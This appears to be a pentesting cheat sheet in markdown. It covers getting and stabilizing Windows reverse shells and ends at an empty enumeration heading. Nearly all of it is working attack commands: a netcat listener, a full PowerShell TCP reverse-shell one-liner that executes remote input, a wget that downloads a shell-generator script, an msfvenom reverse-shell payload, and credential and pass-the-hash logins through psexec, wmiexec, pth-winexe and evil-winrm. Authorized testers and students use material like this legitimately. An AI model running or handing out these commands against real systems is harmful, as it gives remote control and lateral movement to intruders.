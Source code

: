 
## Stabilize and prep

- Listen to reverse shell:
```bash
rlwrap nc -lvnp 443
```

### Useful reverse shells

- Powershell oneliner:

```cmd
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Base64 encoded powershell oneliner:

```bash
wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py <ip> 443
```

- TCP reverse shell executable:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```

- Via SMB:

```bash
psexec.py '<username>:<password>@<ip>'
wmiexec.py '<username>:<password>@<ip>'
winexe -U '<username>%<password>' //<ip> cmd.exe
pth-winexe -U '<username>%<lm_hash>:<nt_hash>' //<ip> cmd.exe
```

- Via WinRM:

```sh
evil-winrm -i <ip> -u <username> -p <password>
evil-winrm -i <ip> -u <username> -H <nt_hash>
```

### Install needed tools

  - powerup
  - Get-ModifiableServiceFile

## Enumeration
